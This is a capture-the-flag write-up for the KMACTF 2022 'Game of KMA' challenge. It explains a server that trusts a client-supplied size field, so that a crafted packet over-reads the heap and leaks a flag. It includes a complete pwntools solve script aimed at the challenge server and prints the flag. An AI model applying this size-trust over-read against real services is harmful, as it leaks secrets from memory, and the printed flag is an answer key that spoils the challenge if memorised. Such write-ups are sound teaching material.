







# KMACTF III/2022 - Game of KMA

You can download challenge file in my repo: [secretmachine.zip](secretmachine.zip)

There will be 2 file in zip:
- client
- server

Download and extract, then let's get started!

# 1. Find bug

We will start with the client file first. Let's decompile and see what it does. It will get 2 argument as host and port and connect to that ip address. Then we can input several options to interact with server.

The first option is add():



It will ask us for size and data, then assign them to argument 1 which might be a struct. Let's redefine that struct to the following struct for a better look:

```c
struct PacketStruct{
	short option;       // 2     bytes
	char size;          // 1     bytes
	char buf[0x100];    // 0x100 bytes
}
```

We know `buf` is `0x100` bytes because in deserialize() and serialize(), it execute memcpy() with size is `0x100` so we know the maximum size that `buf` can be is `0x100`.

And the decompiler is easy to read now:


Remember that `size` is 1 byte so if you enter a large number, it still just take the least significant byte for `size`. After all, it add data to the packet struct, the main struct of program, then add that packet to another packet struct and send it to server, we will call it `socket_packet`:



The next option is edit(). It do the same thing but take values from packet:



The third and forth options are just set and send `packet.option` to server so nothing interesting here.

So, no bug and nothing fun for client. Let's analyze the server and maybe there are somethings interesting.

We will also create a packet structure for server and analize what the program does. The server will wait for a new connection and if a client connect, it will read data which is sent from client. After that, the packet is passed as argument to handler().

At the first glance, we can see if option equal to `4626`, it will execute reset(). In reset(), seems like it reads flag from a file `secret.txt` to a heap memory, xor that data with `i` and return:



The next function is add(). It will malloc a chunk with size from received packet and will copy `buf` from received packet to that chunk:



The next function is show(). It will copy `packet->size` bytes, from received packet, from `ptr` to `packet->buf` and return that data to client:



The function show() just simply take first 8 bytes of received packet and assign to `ptr`, then return. The last function is del(), which just remove the pointer from `ptr` and that's all.

Notice that these function use the size which is sent from client, not the fixed size itself.

# 2. Idea

The idea for this chall is to have a pointer in `ptr` first with a small size, then execute reset() to read flag to the next chunk of `ptr` and send a packet with a large size to print the flag out.

If you're trying to find the bug in client, you are pranked because as we've done, there are no bug in client. The server will run the file server and us, will run the file client. But we know how server work, let's create our custom client to interact with server.

Summary:
- Stage 1: Create small chunk
- Stage 2: Read secret.txt
- Stage 3: Leak data

# 3. Exploit

The solve script for this chall will be as following:


```python
#!/usr/bin/python3

from pwn import *

p = remote('45.77.248.50', 1339)
# p = remote('127.0.0.1', 1339)

###################################
### Stage 1: Create small chunk ###
###################################
payload = p16(0x1122)    # option
payload += p8(0x18)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(0x104)

################################
### Stage 2: Read secret.txt ###
################################
payload = p16(0x1212)    # option
payload += p8(0x18)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(0x104)

##########################
### Stage 3: Leak flag ###
##########################
payload = p16(0x1169)    # option
payload += p8(0xff)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(3)                               # Receive option & size
output = p.recv(0x100)[0x20:0x20+40]    # Receive buf

flag = b''
for i in output:
	flag += p8(i ^ ord('i'))            # Xor again with 'i'
print(flag)
```

# 4. Get flag



Flag is `KMACTF{1ns3cur3_c0mmun1c4ti0n_m4ch1n33}`